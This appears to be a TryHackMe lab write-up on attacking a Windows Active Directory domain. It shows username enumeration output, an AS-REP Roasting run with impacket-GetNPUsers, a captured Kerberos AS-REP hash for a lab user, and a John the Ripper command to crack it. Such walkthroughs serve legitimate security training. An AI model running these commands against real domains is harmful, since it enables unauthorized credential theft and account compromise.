 ```bash
2023/07/06 14:32:16 >  [+] VALID USERNAME:       **w.masters@services.local**
2023/07/06 14:32:16 >  [+] VALID USERNAME:       **j.rock@services.local**
2023/07/06 12:13:37 >  Done! Tested 158 usernames (2 valid) in 0.660 seconds
```

# Attacking Kerberos

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos **pre-authentication disabled**. Unlike Kerberoasting these users **do not have to be service accounts** the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

Now that we have a small list with valid usernames, we can use AS-Rep roasting against the DC.

With an AS REP Roasting attack, we successfully get a hash for the user “**j.rock@services.local**”.

## LinWinPwn

We can automate this step with LinWinPwn.

![Untitled](/windows_services/Untitled%202.png)

## Impacket-GetNPUsers

We can also do it manually with GetNPUsers from the impacket suite.

`impacket-GetNPUsers services.local/ -user /home/kali/tryhackme/services/usernames.txt -format hashcat`

```bash
impacket-GetNPUsers services.local/ -user /home/kali/tryhackme/services/usernames.txt -format hashcat

$krb5asrep$23$j.rock@SERVICES.LOCAL:c4cf237723cb3a680a89d7db138ef4ad$2c32b8d635aa2d7ea01bf23c44a734d89f37cb346c1f230e71ccd317086d3867a87758ef9fa204d783b8d80fba1a758b5a7cf664a88a727ddcbca7b8831c3af71780f3e4c7bdf14da7a3f1171059488cd18985db3e63549ef8193c7b40f6eae8d23b5074f8fce31da5491ab35958c6459e38622714d62e7dc489da6407b8d8b78bb2088eed227c8e80412e8deba9a28c5533459d64a893fad789de79de8bfe476cbeb3b5baf2640ff237ab54beaf3dae2085bb26e9db9e9f57c9cfbedb68ec11276f882602fd006899cb562a5e15ac1b115edd6846eec63fc6aa08964034049920a4e042e1f9c9804ec3c12a278d159d
```

# Cracking the Kerberos hash

## Cracking the krb5 hash with John

We can crack the hash output from LinWinPwn with John The Ripper.

`john /home/kali/tryhackme/services/john_hash.txt && john --show /home/kali/tryhackme/services/john_hash.txt`
